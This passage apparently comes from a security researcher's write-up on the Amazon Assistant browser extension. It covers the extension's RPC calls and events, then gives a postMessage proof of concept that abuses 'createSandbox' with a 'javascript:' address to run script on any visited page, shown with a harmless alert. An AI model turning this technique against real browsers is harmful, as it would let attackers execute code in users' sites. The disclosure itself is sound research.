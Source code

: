 | closePanel | Closes the extension’s drop-down panel |
| reloadExtension | Reloads the extension, installing any pending updates |

And here are the interesting events it provides:

| Event name | Purpose |
|:---------:|:-------:|
| Tabs.PageTurn | Triggered on tab changes, contains tab ID, address, loading status, title |
| Tabs.onRemoved | Triggered when a tab is closed, contains tab ID |
| WebRequest.onBeforeRequest<br>WebRequest.onBeforeSendHeaders<br>WebRequest.onCompleted | Correspond to [webRequest API](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/API/webRequest) listeners (this functionality is currently inactive, the extension has no `webRequest` permission) |

Given [extension’s privileges](#the-extension-s-privileges), not much is missing here. The `management` permission is unused as I mentioned before, so listing installed extensions isn’t possible. Cookie access is read-only, setting cookies isn’t possible. And general webpage access appears to stop short of arbitrary code execution. But does it?

The `createSandbox` call can be used with any frame address, no checks performed. This means that a `javascript:` address is possible as well. So if we run the following code in the context of `aa-wishlist-process.html`:

{{< highlight js >}}
parent.postMessage({
  mType: 0,
  source: "AAWishlistProcess",
  payload: {
    msgId: "test",
    mType: "rpcSendAndReceive",
    payload: {
      header: {
        messageType: 1,
        name: "createSandbox",
        namespace: "Platform"
      },
      data: {
        args: {
          tabId: 31,
          sandboxSpecification: {
            proxy: "javascript:alert(document.domain)//",
            url: "test",
            sandboxCSSSpecification: "none"
          }
        }
      }
    }
  }
}, "*");
{{< /highlight >}}

Yes, a message pops up indicating that this successfully executed JavaScript code in the context of the `example.com` domain. So there is at least one way for Amazon services to do anything with the web pages you visit. This particular attack worked only on Chrome however, not on Firefox.

